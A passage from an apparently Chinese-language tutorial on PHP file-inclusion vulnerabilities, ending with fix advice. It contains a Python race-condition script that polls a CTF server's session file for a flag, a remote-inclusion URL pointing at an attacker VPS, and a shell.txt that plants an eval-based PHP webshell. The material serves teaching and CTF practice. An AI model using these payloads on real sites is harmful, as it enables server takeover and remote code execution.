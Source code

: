 ```python


def READ(session):
    while True:
        response = session.get(
            f'http://7caa8dd6-84a1-4c67-b3b3-b3abb1d82220.node4.buuoj.cn:81/index.php?file=/tmp/sess_{sessid}')
        print(response.text)
        if 'flag{' not in response.text:
            print('[+++]retry')
        else:
            print(response.text)
            sys.exit(0)


with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session,))
    t1.daemon = True
    t1.start()

    READ(session)

```

## 远程文件包含(RFL)

服务器通过 PHP 的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严格，

从而可以去包含一个恶意文件，攻击者就可以远程构造一个特定的恶意文件达到攻击目的。

### 漏洞利用

**条件：**`php.ini`中开启`allow_url_include`、`allow_url_fopen`选项。

**远程包含Webshell**

```php
?arg=http://攻击者的VPS/shell.txt
#会在网站目录生成名为 shell.php 的一句话木马
```

**shell.txt内容为：**

```php
<?php
    fputs(fopen('./shell.php','w'),'<?php @eval($_POST[123]) ?>');
?>
```

## 修复建议

```sh
1、禁止远程文件包含 allow_url_include=off
2、配置 open_basedir=指定目录，限制访问区域。
3、过滤../等特殊符号
4、修改Apache日志文件的存放地址
5、开启魔术引号 magic_quotes_qpc=on
6、尽量不要使用动态变量调用文件，直接写要包含的文件。
```

